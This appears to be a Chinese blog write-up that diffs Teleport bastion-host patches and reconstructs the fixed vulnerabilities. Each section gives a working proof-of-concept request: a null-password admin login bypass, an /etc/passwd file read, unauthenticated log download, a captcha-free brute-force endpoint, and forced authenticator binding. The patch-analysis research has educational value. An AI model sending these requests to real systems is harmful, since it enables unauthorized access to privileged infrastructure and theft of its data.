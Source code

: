```yaml
---
title: "teleport堡垒机审计学习"
date: 2022-09-30T12:00:00+08:00
draft: false
author: "r0fus0d & kitezzzGrim"

---
```


代码审计做的比较少，看到大佬发的分析文章，正好学习下
- https://www.o2oxy.cn/4132.html

---

访问下载页面 https://tp4a.com/download

更新公告里说明了几个漏洞情况

![](../../img/teleport_case/1.png)

下载 补丁包和原版包，进行对比

## 任意用户登录

![](../../img/teleport_case/2.png)

补丁里对几种登录类型进行了验证，不允许 password 值为 null

可以看下验证登录的函数 login,在 data/www/teleport/webroot/app/model/user.py

![](../../img/teleport_case/7.png)

在 password 为null 的时候就跳过了验证

poc
```
抓包，把密码改为 null 即可
      {
          "type":2,
          "username":"admin",
          "password":null,
          "captcha":"rhcl",
          "oath":"",
          "remember":false
      }
```

顺便可以看下在 tp-const.js 里的几种登录类型的定义

![](../../img/teleport_case/6.png)

这里 type 为 2 就是 TP_LOGIN_AUTH_USERNAME_PASSWORD_CAPTCHA 也就是 用户名+密码+验证码 类型

---

## 后台文件下载

![](../../img/teleport_case/3.png)

修复补丁给 DoGetFileHandler 函数加上了一个限制，仅允许读取

找下路由

![](../../img/teleport_case/8.png)

验证了权限，所以是后台洞

![](../../img/teleport_case/9.png)

poc
```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

---

## 前台日志下载

这时我发现升级描述里还有一句 `修正：经过特别构造的请求，无需登录即可读取TP系统操作日志；` ,这个洞应该也是未授权的.

下载 teleport-server-linux-x64-3.6.4-b3.tar.gz 和 3.6.3 对比下

![](../../img/teleport_case/4.png)

果然，补丁给 DoGetLogsHandler 这个函数加上了权限验证,看下他的路由

![](../../img/teleport_case/5.png)

poc
```
    POST http://xxx.xxx.xxx.xxx/system/get-logs HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Length: 162
    Content-Type: application/x-www-form-urlencoded;
    Connection: close

    args=%7B%22filter%22%3A%7B%7D%2C%22order%22%3A%7B%22k%22%3A%22log_time%22%2C%22v%22%3Afalse%7D%2C%22limit%22%3A%7B%22page_index%22%3A0%2C%22per_page%22%3A25%7D%7D
```

---

## 绕过验证码爆破

继续看路由，发现BindOathHandler这个函数也不需要鉴权，这个路由下还存在登陆点且无需验证码

poc
```
/user/bind-oath
```

```
POST /user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 102
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3A%22123456%22%2C%22check_bind_oath%22%3Atrue%7D
```

不过注意,默认口令启用强密码策略，要求密码至少8位，必须包含大写字母、小写字母以及数字

---

## 强行绑定身份验证器

同样是BindOathHandler这个函数,看了下他返回user/bind-oath.mako的模版，模版里向/user/verify-user 发送认证请求，通过路由定位到函数DoVerifyUserHandler

![](../../img/teleport_case/10.png)

可以看到，这里也是用 user.login 函数认证的，所以 password 直接用 null 就可以绕过了

poc
```
POST http://xx.xx.xx.xx/user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3Anull%2C%22check_bind_oath%22%3Atrue%7D
```

![](../../img/teleport_case/11.png)

同样，下一个包也设为 null 即可

这洞没啥用，可以用于恶心管理员 😝

---

## 一些思考

1. 根据这个权限验证代码的存在与否可以找前台未授权的点，那么能不能实现自动找未授权页面？
2. 几个权限绕过本质上是 login 函数的问题，可以根据login函数调用点找漏洞触发点
